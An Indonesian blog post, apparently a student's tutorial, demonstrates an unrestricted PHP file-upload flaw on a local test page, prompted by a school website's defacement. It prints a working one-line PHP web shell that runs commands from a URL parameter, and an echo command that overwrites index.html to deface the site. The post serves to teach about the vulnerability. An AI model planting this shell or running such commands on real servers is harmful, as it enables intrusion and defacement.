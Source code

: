 ```yaml
---
title: "Peretasan Website Sekolah Dan Kerentanan Upload File PHP"
date: 2019-01-14T21:00:55+07:00
draft: false
image: img/upload-gambar-dan-peretasan-website-sekolah/thumb.png
---
```


berbagi sedikit cerita, jadi pada sekitar 1 tahun yang lalu website sekolah saya terdeface oleh adik kelas saya, dia sendiri bilang bahwa ada celah upload file di subdomain ppdb, dimana dia bisa mengunggah shell ke website tersebut dan men-deface, tentu saja yang akan saya bahas disini bukan masalah peretasan tersebut melainkan kerentanan upload file pada php, oke sekarang mari fokus dengan kerentanan pada **PHP upload file**.

## PHP upload file

Upload file merupakan kegiatan pengiriman file dari client (pengunjung web) ke server, seperti saat kalian mengubah gambar profile di facebook pada saat itu kalian sedang mengupload file gambar ke server facebook. Sekarang saya akan coba buat simple php upload file, karena saya akan fokus dengan keamanan upload file saya akan _copas_ kodingan dari petanikode saja (bisa dilihat disini : https://www.petanikode.com/php-upload-file/).

![](/img/upload-gambar-dan-peretasan-website-sekolah/step-1.png)

dan setelah membuat filenya langsung saja dicoba...

<video autoplay muted loop>
  <source src="/img/upload-gambar-dan-peretasan-website-sekolah/step-2.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video> 

Bagus, kodingan berjalan dengan baik termasuk saat mengupload gambar.


## upload file vulnerability
![](/img/upload-gambar-dan-peretasan-website-sekolah/step-3.png)

Bisa dilihat source code dari upload.php terlihat bahwa tidak ada pemeriksaan jenis file yang terupload, hm.... mari coba buat file php bernama shell.php dengan isi `<?php echo "Oke!" ?>` dan upload ke server untuk mengetahui apakah saya bisa mengirim file php dan mengaksesnya

<video autoplay muted loop>
  <source src="/img/upload-gambar-dan-peretasan-website-sekolah/step-4.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video> 

dan benar saja file php bisa terupload dan juga bisa diakses. Sampai sini jika kalian berfikir "Dah gitu doang? enggak masalah dong kalau gitu" **NO!**, tentu saja ini masalah yang besar dengan adanya file php yang bisa terupload dan bisa dijalankan saat diakses. Mari buat shell yang lebih hebat.

Ubah isi dari shell.php menjadi seperti ini:
`
<?php $exec = !empty($_GET['exec']) ? $_GET['exec'] : 'ls' ; echo(shell_exec($exec))?>
`

![](/img/upload-gambar-dan-peretasan-website-sekolah/step-5.png)

dengan file php diatas saya bisa menjalan perintah-perintah bash malalui file php yang saya upload dengan menambah perintah bash ke parameter exec atau juga dikenal dengan RCE (Remote Command Execution), ok sekarang saya akan upload ulang..

<video autoplay muted loop>
  <source src="/img/upload-gambar-dan-peretasan-website-sekolah/step-6.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video> 

bisa dilihat diatas saya bisa menjalankan perintah-perintah bash dan mendapatkan hasilnya dari file php saya. Tapi sepertinya kalau begini doang belum puas rasanya, saya akan coba ubah isi file index.html dari file saya yang terupload, yang saya perlu lakukan adalah memasukan perintah bash yang dapat mengubah isi file index.html dan ini perintahnya `echo "phpnya enggak aman gan!" > ../index.html` langsung saja eksekusi..

<video autoplay muted loop>
  <source src="/img/upload-gambar-dan-peretasan-website-sekolah/step-7.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video> 

Dan **BOOOM** file index.html berubah. Bisa kalian lihat bahwa celah ini sangatlah berbahaya, apalagi jika si penyerang sangat usil dengan mencari informasi-informasi sensitif yang ada diserver seperti passowrd mysql dll..

Oke cukup sekian untuk pembahasan soal kerentanan upload file di php, sebenernya masih banyak celah di php file upload yang bahkan terfilter seperti _**nullbyte**_ dll mungkin akan saya buat postnya tersendiri (biar blog kelihatan hidup hehehe...).

## Update
jika kalian cari bagaimana kode file upload php yang aman, bisa bukak halaman ini:http://www.nobsec.net/2018/12/form-upload-vulnerability-dan-cara.html